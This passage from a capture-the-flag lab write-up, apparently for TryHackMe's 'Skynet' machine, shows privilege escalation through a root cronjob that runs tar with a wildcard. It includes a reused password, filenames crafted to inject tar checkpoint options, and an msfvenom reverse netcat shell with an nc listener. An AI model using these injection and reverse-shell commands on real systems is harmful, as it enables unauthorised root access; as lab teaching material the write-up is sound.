 Password reuse! Using `cyborg007haloterminator` we can switch to the `milesdyson` user.

There's an interesting script in `/home/milesdyson/backups` called `backup.sh`

```
milesdyson@skynet:~/backups$ cat backup.sh

#!/bin/bash
cd /var/www/html
tar cf /home/milesdyson/backups/backup.tgz *
```

Let's check if it's running as a **cronjob**

```
cat /etc/crontab

# m h dom mon dow user	command
*/1 *	* * *   root	/home/milesdyson/backups/backup.sh
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
```

So every minute it's running the script, which means it's changing to the `/var/www/html` directory and running `tar cf` on everything. `milesdyson` doesn't have write access to `/var/www/html`, but if we drop back down to `www-data` we do!

Since **tar** is using a **wildcard** it's vulnerable to injection by creating files with names that represent `tar` checkpoints:

```
--checkpoint=1
--checkpoint-action=exec=sh shell.sh
```

Create a reverse shell using **msfvenom** and start a listener

```
msfvenom -p cmd/unix/reverse_netcat lhost=IP lport=PORT R 

nc -lvnp PORT
```

```
echo 'SHELLOUTPUT' > shell.sh
touch -- "--checkpoint-action=exec=sh shell.sh"
touch -- --checkpoint=1
```

Notice the inclusion of `--` before the file name, this allows us to create filenames with special characters.

Now we wait...


![img](/assets/images/tryhackme/skynet/14.png)
